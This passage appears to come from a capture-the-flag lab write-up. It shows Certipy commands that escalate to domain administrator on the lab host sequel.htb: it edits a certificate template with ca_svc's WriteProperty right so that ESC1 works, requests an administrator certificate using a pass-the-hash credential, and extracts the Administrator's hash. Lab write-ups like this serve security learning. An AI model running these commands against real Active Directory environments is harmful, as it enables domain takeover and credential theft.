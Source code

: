 Leveraging the <mark style="color:yellow;">**WriteProperty**</mark> right we have as a `ca_svc` because member of `Cert Publishers`, we go ahead and, using KRB5CCNAME file to impersonate ca\_svc, exploit the rights we have on the misconfigured template by editing the template with the 'template' module from Certipy in order to make this template vulnerable to ESC1 attacks:&#x20;

{% code overflow="wrap" %}
```bash
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template "DunderMifflinAuthentication" -dc-ip 10.10.11.51  -target dc01.sequel.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Now finally use the `ca_svc` user's credential hash to obtain an authentication ticket for the target system via a Kerberos request:

{% code overflow="wrap" %}
```bash
certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template "DunderMifflinAuthentication" -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug -out administrator
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Get the Administrator's hash from the certificate:

```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
